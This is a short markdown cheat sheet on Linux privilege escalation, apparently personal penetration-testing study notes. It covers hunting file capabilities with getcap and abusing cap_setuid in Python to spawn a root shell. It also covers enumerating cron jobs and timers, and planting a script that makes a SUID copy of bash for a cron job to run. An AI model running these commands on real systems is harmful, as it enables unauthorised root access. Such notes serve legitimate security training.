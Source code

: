 


# Escalation Path: Capabilities




## Resources
Linux Privilege Escalation using Capabilities: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

SUID vs Capabilities: https://mn3m.info/posts/suid-vs-capabilities/

Linux Capabilities Privilege Escalation: https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

### Hunting for Capabilities 
Its similar to SUID, we can run files with privileges:
```bash
getcap -r / 2>/dev/null
# /usr/bin/python2.6 = cap_setuid+ep

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```




# Escalation Path: Scheduled Tasks


## Look for Cron
There is others ways to visualize this, if u dont have permission to run crontab, seach for an alternative
example: 
```bash
/etc/init.d | /etc/cron* | /etc/sudoers | ls -al /etc/ | grep cron 

cat /etc/crontab
```

Look for Systemd Timers:
```bash
systemctl list-timers --all
```

### Escalation via Cron Paths

If the crontab is executing a file, go to your $PATH variable  to see which path u have access. 
in case u have access in any dir, lets go make something malicious to trick the crontab, to run our file

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```
